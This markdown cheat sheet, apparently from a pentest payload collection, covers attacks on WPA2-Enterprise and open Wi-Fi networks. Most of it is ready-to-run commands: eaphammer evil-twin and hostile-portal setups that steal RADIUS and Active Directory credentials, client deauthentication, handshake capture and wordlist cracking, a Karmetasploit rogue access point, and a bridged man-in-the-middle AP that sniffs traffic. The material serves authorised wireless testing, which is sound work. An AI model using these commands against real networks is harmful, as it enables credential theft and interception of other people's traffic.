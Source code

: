 # Wifi - Enterprise Network

## WPA and WPA2 EAP

WPA EAP refers to the use of the Extensible Authentication Protocol (EAP) within the context of the Wi-Fi Protected Access (WPA) security standard for wireless networks. WPA is a suite of security protocols to secure wireless local area networks (WLANs) and is a response to the vulnerabilities of the older Wired Equivalent Privacy (WEP) standard. WPA EAP is specifically associated with the enterprise mode of WPA, which uses 802.1X authentication to provide a higher level of security compared to the personal mode of WPA, which uses a pre-shared key (PSK).

* [s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer) - Targeted evil twin attacks against WPA2-Enterprise networks.

    ```ps1
    git clone https://github.com/s0lst1c3/eaphammer.git
    ./kali-setup

    # generate certificates
    ./eaphammer --cert-wizard

    # launch attack
    ./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds

    # deauth users and wait for them to connect to our AP
    aireplay-ng -0 0 -a MAC_ADDR_AP -c MAC_ADDR_CIBLE wlan0mon
    ```

* [Stealing RADIUS Credentials Using EAPHammer](https://github.com/s0lst1c3/eaphammer/wiki/II.-Stealing-RADIUS-Credentials-Using-EAPHammer)

    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 2 --interface wlan0 --auth wpa-eap --creds
    ```

* [Stealing AD Credentials Using Hostile Portal Attacks](https://github.com/s0lst1c3/eaphammer/wiki/III.-Stealing-AD-Credentials-Using-Hostile-Portal-Attacks)

    ```ps1
    ./eaphammer --interface wlan0 --bssid 1C:7E:E5:97:79:B1 --essid EvilC0rp --channel 6 --auth wpa-eap --hostile-portal
    ./eaphammer --interface wlan0 --essid TotallyLegit --hw-mode n --channel 36 --auth open --hostile-portal
    ```

* [Performing Captive Portal Attacks - Evil Twin Attacks](https://github.com/s0lst1c3/eaphammer/wiki/V.-Performing-Captive-Portal-Attacks)

    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid HappyMealz --channel 149 --interface wlan0 --captive-portal
    ./eaphammer --captive-portal -e guestnet -i wlan0 --portal-template rogue-cert-prompt --lhost 10.0.0.10 --payload secure.crt
    ```

## Rogue Access Point

### WPA handshake

```powershell
airmon-ng start wlan0 3
airodump-ng -c 3 -d $ATTACKER_MAC -w airbase mon0

# basic fake AP
airbase-ng -c 3 -e $AP_SSID mon0
airbase-ng -c 3 -e $AP_SSID -z 4 -W 1 mon0
-W 1 : WEP

# get a WPA handshake if the client connect
aircrack-ng -w /pentest/passwords/john/password.lst airbase-01.cap
```

### Karmetasploit

```powershell
# install a dhcp server
apt install dhcp3-server

airmon-ng start wlan0 3
airbase-ng -c 3 -P -C 60 -e $AP_MAC -v mon0
-P: respond to all probes
ifconfig at0 up 10.0.0.1/24

mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases

"CONF DHCP FROM VIDEO 75" > /tmp/dhcpd.conf

touch /tmp/dhcp.log
chown -R dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp/log at0

karma.rc from metasploit
# comment the first 2 lines (load sqlite)
msfconsole -r /root/karma.rc
```

### Access Point MITM

```powershell
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# create a bridged interface
# apt-get install bridge-utils
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# assign IP addresses
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# mitm tools
driftnet
ettercap -G
Sniff > Unified sniffing > Hacker Interface
```

## References

* [Retex : Test d’intrusion Wi-Fi (WPA2-Enterprise) - @virtualsamuraii](https://virtualsamuraii.github.io/network/retex-pentest-wifi-wpa2-enterprise/)
